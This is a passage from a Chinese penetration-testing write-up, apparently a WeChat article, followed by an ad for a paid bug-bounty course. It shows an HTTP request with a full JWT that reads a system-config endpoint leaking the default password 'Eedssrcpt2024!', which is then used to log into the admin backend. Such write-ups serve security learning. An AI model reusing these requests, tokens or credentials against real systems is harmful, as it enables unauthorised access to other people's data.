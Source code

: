 ![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSd29k2XG3Gex6IFWtGbkpdickBRnnkQ8E2bsR66SpiaawLWCQqWCAjeuHr0tPQWek9zwLgZcmdU24Q/640?wx_fmt=png&from=appmsg "")  
  
可以证明这些  
jwt  
对该系统有效，但是没有具体的密码登录，现在只能调用该系统里接口获取数据，非常不方便；于是我找到了如下接口，里面显示了该系统的初始化密码为  
Eedssrcpt2024!  
  
注：数据包里  
jwt  
随便填一个有效的就行  
```
GET /prod-api/system/config/2 HTTP/1.1
Host: xxn:8081
tenant-id: 1001
Authorization: eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjozNTU4LCJ1c2VyX2tleSI6IjFiMDBkNTg3LTUyOGQtNGEwMS05NDY0LTQ5YzJkY2YyY2ViZiIsImRlcHRfaWQiOm51bGwsInRlbmFudC1pZCI6MTAwMSwidXNlcm5hbWUiOiJcdTVmYWVcdTRmZTFcdTc1MjhcdTYyMzdfODY1MCJ9.89FqNollbb7u2blR3PDDnHdbs5XStPjR9l5iQXwXlsaXBU7n7YKDh8ZZQMXWbcoUlRnG1m7nIgnLoZ_ajfxH-A
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSd29k2XG3Gex6IFWtGbkpdToEMicCa5S7MlUXhjQDicYnEONmtz4chohnObudy08SZPjD6Q3HYHcSg/640?wx_fmt=png&from=appmsg "")  
  
于是随便找了个用户名尝试登录  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSd29k2XG3Gex6IFWtGbkpd84IBRC9Ss4A6kSDtgvF8DiaeiakajWiafk4ib8uic0A9mssice1Ypqdrdicow/640?wx_fmt=png&from=appmsg "")  
  
使用初始密码Eedssrcpt2024!  
成功进入后台  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSd29k2XG3Gex6IFWtGbkpd9rffialncknZf6a2lAbtTwPCRe4ayaf4FMRh5h9WeyrmbTqNhFjKl7g/640?wx_fmt=png&from=appmsg "")  
  
到此渗透测试结束  
  
  
  
  
**每个初学挖洞的小白都有一个美梦**  
：是否可以在我学习挖洞技能的时候，有位师傅手把手指导，不仅教会我各种技术，还能带着我一起接项目挣钱，让我的技能和钱包同时“升级打怪”。  
  
    还真别说，现在这个天降大饼的美梦来了！FreeBuf知识大陆帮会《安全渗透感知大家族》，正好为你提供了这样的机会。在这里，你既能  
学到知识  
，又能  
做项目赚钱  
，还能在项目实践过程中与大佬们  
交流思路、夯实基础  
。  
  
[](http://mp.weixin.qq.com/s?__biz=MjM5NjA0NjgyMA==&mid=2651303102&idx=1&sn=6bd3abdb7109cc66aba29c207220abb3&chksm=bd1c3e358a6bb723efafa4f60e95a264aeea48508f9acef1444e8d5dded986457f046c39e3a2&scene=21#wechat_redirect)  
  
该**SRC漏洞挖掘出洞课程**  
，是由团队内部师傅根据实际挖洞经历整合的适合挖掘漏洞但是缺乏思路、刚接触学习漏洞挖掘不出漏洞的师傅们的漏洞挖掘教程。  
  
第一期课程价格  
199  
，这价格还要什么自行车？课程正在持续更新中~  
  